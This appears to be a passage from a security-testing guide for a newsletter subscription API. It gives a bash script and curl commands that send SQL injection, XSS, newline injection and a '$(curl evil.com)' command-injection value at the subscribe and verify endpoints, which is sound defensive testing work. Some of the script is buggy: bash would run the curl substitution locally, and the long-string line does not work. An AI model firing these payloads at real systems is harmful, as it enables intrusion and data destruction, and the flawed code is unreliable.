 ```bash
curl "https://api.rnwolf.net/v1/newsletter/verify?token=<token>modified&email=test@example.com"
# Expected: 400 Bad Request
```

### 2. Input Validation Testing

#### Email Validation

**Test Script** (`scripts/test-email-validation.sh`):
```bash
#!/bin/bash

API_URL="https://api.rnwolf.net"

echo "=== Email Validation Security Tests ==="

# Test cases for email validation
test_emails=(
  ""                                    # Empty email
  "invalid-email"                       # Invalid format
  "test@"                              # Incomplete domain
  "@domain.com"                        # Missing local part
  "test..test@domain.com"              # Double dots
  "test@domain"                        # Missing TLD
  "test@domain..com"                   # Double dots in domain
  "test space@domain.com"              # Space in email
  "test@domain .com"                   # Space in domain
  "$(echo -e 'test@domain.com\nmalicious')" # Newline injection
  "test@domain.com'; DROP TABLE subscribers; --" # SQL injection attempt
  "<script>alert('xss')</script>@domain.com"     # XSS attempt
  "test@domain.com$(curl evil.com)"              # Command injection
  "A"*255"@domain.com"                          # Extremely long email
)

for email in "${test_emails[@]}"; do
  echo "Testing: $email"
  response=$(curl -s -X POST "$API_URL/v1/newsletter/subscribe" \
    -H "Content-Type: application/json" \
    -d "{\"email\": \"$email\"}")
  
  echo "Response: $response"
  echo "---"
done
```

#### SQL Injection Testing

**Test Cases**:
```bash
# Test 1: SQL injection in email parameter
curl -X POST https://api.rnwolf.net/v1/newsletter/subscribe \
  -H "Content-Type: application/json" \
  -d '{"email": "test@domain.com'\'''; DROP TABLE subscribers; --"}'

# Test 2: SQL injection in verification
curl "https://api.rnwolf.net/v1/newsletter/verify?email=test@domain.com'%20OR%201=1%20--&token=test"

# Test 3: Boolean-based blind SQL injection
curl "https://api.rnwolf.net/v1/newsletter/verify?email=test@domain.com'%20AND%201=1%20--&token=test"
curl "https://api.rnwolf.net/v1/newsletter/verify?email=test@domain.com'%20AND%201=2%20--&token=test"

```